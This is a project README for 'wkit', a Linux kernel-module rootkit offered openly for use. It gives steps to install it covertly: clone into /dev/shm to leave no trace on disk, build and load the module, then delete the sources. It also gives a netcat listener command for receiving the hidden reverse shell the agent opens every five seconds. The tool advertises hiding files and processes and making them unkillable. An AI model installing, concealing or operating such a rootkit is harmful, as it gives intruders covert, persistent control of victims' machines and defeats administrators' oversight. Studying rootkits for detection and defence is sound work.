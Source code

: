 <h1 align="center">
  <img src="assets/showcase.png">
  </br>
  </br>
  wkit | a rootkit for modern kernels
</h1>

a linux loadable kernel module (LKM) rootkit for modern kernels
using a userland agent, it provides a reverse backdoor that 
you can use to create hidden reverse shells, hidding files and
protecting processes.

## features
- support for 5.15+ 64 bit kernels
- create hidden and unkillable reverse shells
- make files hidden, unremovable and unreadable
- make processes hidden and unkillable

## installing
first you should install all the dependencies:
- `build-essential`: gcc and other compile tools 
- `linux-headers`: linux API headers needed for building a LKM 

then clone the repository, to leave no trace on the disk
you can do this inside the `/dev/shm` directory:
```bash
cd /dev/shm
git clone https://github.com/ngn13/wkit.git
cd wkit
```
after that run the `install.sh` script:
```bash
./install.sh
```
this script will:
- check the kernel version and arch
- create new random configuration 
- build the kernel module
- build the userland agent 
- install the userland agent 
- load the kernel module

lastly cleanup the sources:
```
cd .. && rm -rf wkit
```

## usage
start a netcat listener on the host and port you specified during
the installation:
```
nc -lnvp <port>
```
userland agent attempts to make connection with this address every 
5 seconds, so you should receive a backdoor connection in few seconds


## resources
to learn more about LKMs and rootkits checkout these resources:
- [LKM programming guide](https://sysprog21.github.io/lkmpg/)
- [xcellerator's kernel hacking guide](https://github.com/xcellerator/linux_kernel_hacking)
- [Linux kernel teaching](https://linux-kernel-labs.github.io/refs/heads/master/)

also feel free to create issues if you have any questions - you can also contribute with PRs
